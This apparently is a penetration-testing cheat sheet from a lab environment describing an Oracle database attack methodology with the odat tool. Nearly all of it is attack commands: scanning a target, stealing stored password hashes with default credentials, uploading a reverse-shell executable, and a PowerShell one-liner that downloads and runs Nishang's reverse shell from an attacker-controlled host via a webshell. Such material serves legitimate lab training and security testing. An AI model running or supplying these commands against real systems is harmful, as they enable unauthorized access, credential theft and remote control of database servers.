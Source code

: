 ### Oracle Databases Methodology

1. Use odat to scan

   ```bash
   sudo odat all -s 10.10.10.82 -p 1521 
   ```

2. If credentials are found, scan again with those and the sysdba option, if possible:

   ```bash
   sudo odat all -s 10.10.10.82 -p 1521 -d SID -U myuser -P mypass --sysdba
   ```

3. Look for passwords

   ```bash
   sudo odat stealremotepwds -s 10.10.10.82 -p 1521 -d XE -U scott -P tiger --get-all-passwords
   # OR
   odat search -s 10.10.10.82 -p 1521 -d XE -U scott -P tiger --pwd-column-names
   ```

4. Upload and possibly execute files:

   ```bash
   odat utlfile -s 10.10.10.82 -p 1521 -U scott -P tiger -d XE --sysdba --putFile c:/ win_revtcp_8000.exe /home/coyote/htblab/oscp_like/82/win_revtcp_8000.exe
   
   odat utlfile -s 10.10.10.82 -p 1521 -U scott -P tiger -d XE --sysdba --putFile c:/ win_revtcp_8000.exe /home/coyote/htblab/oscp_like/82/win_revtcp_8000.exe
   ```

5. If unable to execute files, upload a webshell and use it to call a remote powershell

   ```bash
   # In webshell, using Nishang's PS reverse shell:
   powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.37/Invoke-PowerShellTcp.ps1')
   ```

   
